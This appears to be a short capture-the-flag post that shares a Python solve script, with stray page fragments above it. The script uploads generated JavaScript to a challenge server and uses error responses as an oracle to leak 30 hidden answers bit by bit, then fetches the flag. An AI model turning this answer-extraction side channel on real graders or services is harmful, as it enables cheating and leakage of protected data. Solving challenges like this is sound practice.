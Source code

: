 ```js
    return false;
}
```

贴个脚本吧

```python
import requests

def submit_testcase(a, s):
    answers = {k: v for k, v in enumerate(a)}
    answers[len(answers)] = True
    javascript = """\
    function oracle(personId, questionNumber) {{

        answers = {}

        if (!answers.hasOwnProperty(questionNumber)){{
            throw 'x'
        }} else {{
            return answers[questionNumber];
        }};
    }};
    """.format(answers).replace("True", "true").replace("False", "false")
    r = s.post('https://autoraider-bvel4oasra-uc.a.run.app/upload', files=dict(code=(None, javascript)))
    return 'error' in r.text
def solve():
    s = requests.Session()
    s.get('https://autoraider-bvel4oasra-uc.a.run.app')

    answers = list()
    while len(answers) < 30:
        res = submit_testcase(answers, s)
        answers.append(res)

    r = s.get('https://autoraider-bvel4oasra-uc.a.run.app/grade')
    if 'flag' in r.text:
        print(r.text)
        exit(0)

def main():
    while True:
        solve()

if __name__ == '__main__':
    main()
```

